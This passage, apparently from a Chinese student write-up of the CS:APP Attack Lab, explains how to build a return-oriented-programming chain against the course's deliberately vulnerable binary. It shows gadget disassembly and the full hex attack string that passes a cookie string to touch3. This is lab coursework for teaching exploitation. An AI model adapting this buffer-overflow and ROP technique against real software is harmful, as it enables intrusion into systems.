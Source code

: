         以上实现了 ```mov   %eax, %esi```
   2. 调用 add_xy
5. 将 cookie 的地址传给 %rdi
    getval_447 函数

    ```text
    401960:	b8 48 89 c7 90          mov     $0x90c78948, %eax
    401965:	c3                      retq
    ```

    从 0x401961 开始执行

    ```text
    401961: 48 89 c7        mov    %rax, %rdi
    401964: 90              nop
    401965: c3              retq
    ```

6. 调用 touch3
7. 攻击串为

    ```text
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    ab 19 40 00 00 00 00 00
    61 19 40 00 00 00 00 00
    6a 19 40 00 00 00 00 00
    48 00 00 00 00 00 00 00
    a3 19 40 00 00 00 00 00
    c4 19 40 00 00 00 00 00
    b1 19 40 00 00 00 00 00
    9c 19 40 00 00 00 00 00
    61 19 40 00 00 00 00 00
    d2 18 40 00 00 00 00 00
    33 37 66 36 35 39 36 63 00
    ```
